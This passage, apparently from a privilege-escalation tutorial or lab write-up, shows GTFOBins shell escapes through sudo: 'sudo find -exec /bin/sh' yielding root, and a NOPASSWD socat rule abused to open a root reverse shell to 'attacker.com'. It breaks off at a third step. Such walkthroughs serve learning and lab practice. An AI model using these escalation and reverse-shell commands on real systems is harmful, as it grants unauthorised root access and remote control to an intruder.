                         sudo find . -exec /bin/sh \; -quit

#### Step 3: Copy the shell escape of GTFOBins and paste it on your terminal 

     user@debian:~$ sudo find . -exec /bin/sh \; -quit
     sh-4.1# 
 
#### Step 4: Wow, you did well . Now , use id command and see you are now root 🥰

     sh-4.1# id
     uid=0(root) gid=0(root) groups=0(root)
     sh-4.1# 

#### 😍Happy Hacking 😍

# 🔥05: Root Privilegers using Shell Escape Sequences :
Acording to Previous process we will use :sudo -l and then  check Shell Escape Sequences and check it on GFTOBins

# Step 1:
        sudo -l 
Result :
    
    matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
    
# Step 2: Now check (root) NOPASSWD: /usr/bin/socat in GFTobins and use it 

Here , socat is our target Shell Escape which use for connected other machine . For liseting socat we must  upload Reverse Shell on our target Machine
Like that :

    RHOST=attacker.com
    RPORT=12345
    sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
OR :

    sudo socat tcp-connect:my-machine ip:my-machine port number  exec:/bin/sh,pty,stderr,setsid,sigint,sane
    
    
# Step 3: After  , complete those steps sucessfully   We must use following command in your  pc :
